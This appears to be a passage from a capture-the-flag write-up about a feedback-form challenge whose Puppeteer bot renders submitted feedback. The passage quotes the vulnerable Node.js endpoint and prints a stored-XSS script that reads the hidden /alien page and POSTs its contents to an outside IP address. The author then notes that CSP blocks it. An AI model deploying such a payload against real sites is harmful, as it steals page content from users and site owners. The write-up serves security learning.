 ```js

    await browser.close();
    await db.migrate();
};

module.exports = { purgeData };
```

Well, there goes the sandbox and safebrowsing... `purgeData` is simply browsing to the `/list` page, and waiting until the page is rendered. `purgeData` is called in index.js every time when a new `feedback` is added. 

**index.js vulnerable code**
```js
fastify.post('/api/submit', async (request, reply) => {
		let { feedback } = request.body;
		
		if (feedback) {
			return db.addFeedback(feedback)
				.then(() => {
					bot.purgeData(db);
					reply.send({ message: 'The Galactic Federation has processed your feedback.' });
				})
				.catch(() => reply.send({ message: 'The Galactic Federation spaceship controller has crashed.', error: 1}));
		}

		return reply.send({ message: 'Missing parameters.', error: 1 });
	});
```

The exploit process is pretty obvious at this point:
	1) Stored XSS
	2) CSRF to exfiltrate the hidden page `/alien` as it contains the flag in HTML

```js
<script>
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        var adad = xhr.responseText;
				var exfil = new XMLHttpRequest();
				exfil.open("POST", "http://165.227.234.68:80/", true);
				exfil.setRequestHeader("Content-Type","text/plain");
				exfil.send(adad);
    }
}
xhr.open('GET', '/alien', true);
xhr.send(null);
</script>
```

This results to a CSP-deny, check the CSP with an evaluator: https://csp-evaluator.withgoogle.com/. As puppeteer is chromium based, this is quite expectable with proper CSP headers, Firefox would let us go easy.

